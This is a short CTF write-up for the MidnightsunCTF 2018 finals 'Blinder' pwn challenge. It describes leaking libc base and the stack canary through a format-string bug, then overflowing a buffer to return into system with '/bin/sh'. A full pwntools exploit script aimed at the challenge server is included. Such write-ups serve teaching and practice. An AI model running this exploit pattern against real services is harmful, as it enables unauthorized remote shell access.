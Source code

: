 ```yaml
---
layout: post
category: Pwn
title: MidnightsunCTF finals 2018 Blinder Pwn
tags: 
    - kowu
---
```


We got a libc and an ip:port. It asks for a name, echos it, and the asks us what it can help us with. Then it exits. The name echoing has a formatstring vuln, the second input has a buffer overflow. There is a stack canary, the binary is 32 bit. As libc is already given exploitation is a piece of cake.

I first dumped the stack till `__libc_start_main_ret` (reconnecting everytime). Knowing the static offset I could now retrieve libc base reliable with `%291$p`. In the stackdump I already saw something what looked like a stack canary, I confirmed this by writing one byte inside it which caused a sigsegv. So by `%267$p` I could retrieve the canary. Now we know everything for successfull exploitation. In the first step we leak libc and canary, in the second step we overwrite the ret pointer with system and place "/bin/sh" as the first argument on the stack. Done.

```python
r = remote("52.210.10.146", 6666)
r.recvuntil("Welcome! What is your name?")
r.sendline("%291$p_%267$p")
r.recvuntil("Hello ")
res = r.recvuntil("What")[:-4].strip().split("_")

libcbase = int(res[0], 16) - 0x18e81
canary = int(res[1], 16)

log.info("libcbase 0x{:x}".format(libcbase))
r.recvuntil("can we help you with today?")
r.sendline("A" * 1024 + struct.pack("<IIIIIII", canary, 0, 0, 0, libcbase + 0x3cd10, 0, libcbase + 0x17b8cf))
r.interactive()
```
